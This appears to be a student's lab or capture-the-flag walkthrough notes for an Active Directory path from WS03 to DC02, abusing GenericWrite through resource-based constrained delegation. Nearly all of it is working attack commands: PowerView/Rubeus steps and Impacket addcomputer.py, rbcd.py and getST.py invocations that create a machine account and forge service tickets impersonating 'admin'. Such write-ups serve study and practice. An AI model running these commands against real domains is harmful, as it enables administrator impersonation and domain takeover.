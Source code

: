 Once [[Headed down another path]] & [[No place to hide]] are completed the next path forward is to the domain with `GenericWrite` abuse.

# Windows Abuse Method
`WS03` to `DC02` 's intended path 
![[Pasted image 20240111100600.png]]
![[Pasted image 20240111100817.png]]
![[Pasted image 20240111101003.png]]
```powershell
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
```
![[Pasted image 20240111101131.png]]
```powershell
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
```
![[Pasted image 20240111101233.png]]
```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```
![[Pasted image 20240111101313.png]]
```powershell
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
![[Pasted image 20240111101539.png]]
We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:
```powershell
Rubeus.exe hash /password:Summer2018!
```
![[Pasted image 20240111101700.png]]
```powershell
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```


# Linux Abuse Method

Resource-Based Constrained Delegation

First, if an attacker does not control an account with an SPN set, a new attacker-controlled computer account can be added with Impacket's addcomputer.py example script:

```powershell
addcomputer.py -method LDAPS -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host $DomainController -domain-netbios $DOMAIN 'domain/user:password'
```
We now need to configure the target object so that the attacker-controlled computer can delegate to it. Impacket's rbcd.py script can be used for that purpose:
```powershell
rbcd.py -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'TargetComputer' -action 'write' 'domain/user:password'
```
And finally we can get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. Impacket's getST.py example script can be used for that purpose.
```powershell
getST.py -spn 'cifs/targetcomputer.testlab.local' -impersonate 'admin' 'domain/attackersystem$:Summer2018!'
```